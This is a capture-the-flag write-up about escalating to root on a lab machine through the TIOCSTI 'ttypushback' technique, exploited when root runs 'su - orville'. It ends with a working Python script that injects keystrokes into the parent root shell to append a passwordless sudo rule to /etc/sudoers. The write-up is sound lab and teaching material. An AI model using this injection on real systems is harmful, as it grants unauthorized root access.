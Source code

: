 ## Flag 3

After some enumeration I found a `web_snapshot.zip` file. Which wasn't a big help but not useless either. This file made me think of where it came from. Looking for the background processes, we find that there is a zip command being executed every minute.

![](<Pasted image 20241014203624.png>){: w="700" h="300" .center }

I think this is where most of you including me got stuck at. I spent hours messing with the zip file, creating symlinks and whatever came to mind with no success.

Asking for some help on the discord channel, someone was kind enough to let me know about an ancient privilege escalation method.

### ttypushback

Researching what it was, I found this perfect blog explaning the vulnerability and the way it's exploited.

> [PoC](https://www.errno.fr/TTYPushback.html) - www.errno.fr
> 
> The TIOCSTI ioctl can insert bytes in the tty’s input queue. It is used to simulate terminal input.
> 
> When running `su lowpriv_user`, by default no new pty is allocated. 
> 
> Therefore since we’re still in the same pty, input can be sent directly _to the parent shell_ to execute commands in its context.
{: .prompt-tip}

If you notice in the background processes, some user is using `su - orville` to get a shell as `orville`. This is highly likely to be the root user.

To explain the exploit in simple terms:

- When the root user gets a shell as the normal user the shell that was running as root will keep running in the background.
- Both the root shell and the user shell are connected to each other. Since this is the case, we can directly send input to the root shell and execute commands as root.
- To execute commands in the root shell, we have to somehow make the root user execute some malicious code once it gets shell as `orville`. 

Let's save this script to `/home/orville/getroot.py`. This will simply add `orville` in the `/etc/sudoers` file so that the user is able to run anything as root without a password.
```python
#!/usr/bin/python3
import fcntl
import termios
import os
import signal

os.kill(os.getppid(), signal.SIGSTOP)

run_as_root = "echo 'orville ALL=(ALL) NOPASSWD: ALL' >> /etc/sudoers"

for char in run_as_root + '\n':
    fcntl.ioctl(0, termios.TIOCSTI, char)
```
